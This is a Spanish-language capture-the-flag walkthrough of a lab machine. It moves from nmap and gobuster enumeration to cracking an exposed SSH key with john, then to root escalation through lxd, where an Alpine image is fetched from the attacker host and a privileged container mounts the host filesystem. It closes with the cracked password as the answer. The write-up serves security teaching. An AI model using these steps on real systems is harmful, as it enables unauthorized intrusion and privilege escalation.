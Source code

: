 Bienvenidos nuevamente. En esta maquina, escanearemos que puertos estan abiertos y enumeraremos directorios ocultos con nuestra herramienta **gobuster**. Tambien realizaremos una busqueda dentro del **Page-Source** para descubrir al usuario que debemos atacar y accederemos remotamente gracias al uso de **id_rsa** con ayuda de **john**. Luego, escalaremos privilegios abusandonos de #lxd para acceder como sisterma raiz.

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`
```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.22s latency).
Scanned at 2023-05-02 16:04:56 EDT for 23s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nuestro scan nmap nos muestra los puertos abiertos **http** **ssh**. Podremos navegar dentro de la pagina web e inspeccionar el Page-Source. AL observarlo, podremos leer un mensaje dedicado a john, por lo que, john seria nuestra victima!.

# Enumeration

Empezaremos nuestra enumeracion con la herramienta **gobuster** que nos muestra posibles directorios ocultos. Ejecutaremos `gobuster dir http://IPTARGET -w /usr/share/wordlists/seclist/Discovery/Web-content/common.txt`

```ruby
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 315] [--> http://IPTARGET/secret/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://IPTARGET/uploads/]
```

Tendremos 3 directorios que nos deben interesar:

> /secret
> /robots.txt
> /uploads

Al navegar dentro de /secret, podremos ver una llave que podremos utilizar para acceder via #ssh.

#  Intrusion

Para empezar el proceso de intrusion, copiaremos la llave que obtuvimos anteriormente y le daremos permisos de escritura y lectura : `chmod 600 id_rsa` 
Luego, utilizamos **ssh2john** para descifrar contraseñas de archivos de clave **SSH**. 
Ejecutaremos : `ssh2john id_rsa > id.txt` . Para poder descifrar la contraseña utilizaremos **john** . `sudo john --wordlist=/usr/share/wordlists/rockyou.txt id.txt`

Una vez tengamos nuestra contraseña crackeada, nos conectaremos via #ssh. 
`ssh -i id_rsa john@IPTARGET` nos pedira la contraseña para poder acceder al sistema como usuario john.

# Priv. Escalation

Para escalar privilegios, listaremos informacion sobre el usuario y a los grupos el cual pertenece `id` 
 Veremos que pertenece al grupo #lxd, por lo que haciendo una busqueda en internet sobre este grupo, podemos escalar privilegios de la siguiente manera .

Iniciamos el proceso accediendo como #root en nuestra maquina atacante `sudo su` 
Como usuario root dentro de nuestra maquina atacante, seguismos los siguientes pasos:

> Clonamos el repositorio de git :  `git clone https://github.com/saghul/lxd-alpine-builder.git` y nos dirigimos dentro del directorio.
> Ejecutamos  `./build-alpine` **Este proceso puede demorar**
> Abriremos un servidor http `python3 -m http.server 80`

Cambiamos a la maquina victima, nos moveremos al directorio **/tmp**  y seguiremos los siguientes pasos:

> Nos transferimos el archivo generado por **build-alpine** `wget http://LHOST:80/lxd-build-alpine/alpine-v*.tar.gz` la ruta es dependiendo donde clonaron el repositorio 
> Importaremos `lxc image import ./alpine-v*.tar.gz --alias ggh` el alias es a eleccion.
> Listaremos, asegurando que se importo correctamente `lxc image list`

Una vez seguido los pasos, deberemos configurar nuestro entorno antes de ejecutarlo con los siguientes comandos: 
```ruby
lxc init ggh ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Corroboramos que somos root con `whoami` . Para encontrar la flag con mas rapidez, podes utilizar `find`

#  Respuestas

#john = letmein


